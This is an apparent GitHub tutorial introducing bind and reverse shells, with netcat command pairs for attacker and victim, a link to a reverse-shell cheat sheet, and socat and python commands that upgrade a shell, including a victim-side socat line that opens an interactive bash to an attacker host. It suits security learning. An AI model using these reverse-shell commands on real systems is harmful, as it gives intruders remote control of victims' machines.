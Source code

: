 ### Shells (Hack Responsibly)

## Introduction
Gaining a shell on your attack system is the ultimate goal , this way the impact of the vulnerability can be stressed.

According to wiki "a shell is a computer program which exposes an operating system's services to a human user or other programs.". now let's think of it this way , say you want total control of a system, you want to be able to switch it on , use it's camera , transfer its file and so on. the easiest way this could be done is to have physical access to the device. Another way, is to be able to control this system in question remotely (you can stay in your office in another country and access your files and computer usage from home).
A malicious attacker with unauthorized access with unauthorized access may also be able to do .if your system is compromised , just like you they dont have to be in thesame physical location to do this.
Now most of the time this compromise happens. the attacker access and controls your computer by typing commands through this shell, which in turn takes these commands typed and execute accordingly (most of the time, sometimes it asks if you are allowed to execute these commands).
An example of this is typing "shutdown now" on your unix system and watch your computer literaly shutdown, you dont have to press any button or click any beautiful GUI for this to happen, just a coomand lets it. i think i've explained this as best as i can .[check this wikipedia for more detailed explanation](https://en.wikipedia.org/wiki/Shell_(computing))



## Executing Shell

There are two ways to access a shell (bind shell and reverse shell)
1. you connect to the computer in question (bind)
2. the computer connects to you (reverse)

**The Bind shell** is rarely used in practice, due to firewalls that restricts imbound connection . dynamic IP addresses etc . In the case of a bind shell you make a connection to the user , that means the user has to be waiting (listening ) for connection and you connect to it. for this to work you will need the IP address of the system and the port you want to make connection to . note: once the IP address changes there is no way for you to access the system unless ofcourse you find its new IP

  ## Using Netcat for a bind shell
     Attacker's Host: nc <IP> <port> # makes connection to remote machine (looks for machine with that IP and has that port opened and makes a connection to it)
     Remote Machine: nc -nvlp <IP> # listens for connection (waits for someone to connect to its machine through that port)
  ## Using Netcat for a reverse shell
      Attacker's Host: nc -nlvp <PORT> # The attacker waits for the host to connect to its own machine , in this case its the one listening for connection)
      Remote Machine: nc <IP> <PORT> # Remote machine has the IP address of the attacker and makes connection to it ( well the attacker has a static IP that wont be chabging anytime soon)
    
 PS: Only netcat is mentioned here , there are tons of tools to make reverse connection [check payloadallthethings for reverse shell with other tools ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
     

### Shell Codes
  Describe code executed by a target program due to a vulnerability exploit and used to open a remote shell 
  

### Upgrading Simple Shells to Fully Interactive TTYs
using python
  onvictim:
    python -c 'import pty; pty.spawn("/bin/bash")'
    
 using socat:
 on host(attacker):
  socat file:`tty`,raw,echo=0 tcp-listen:4444
 on victim :
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
  
    
    
  
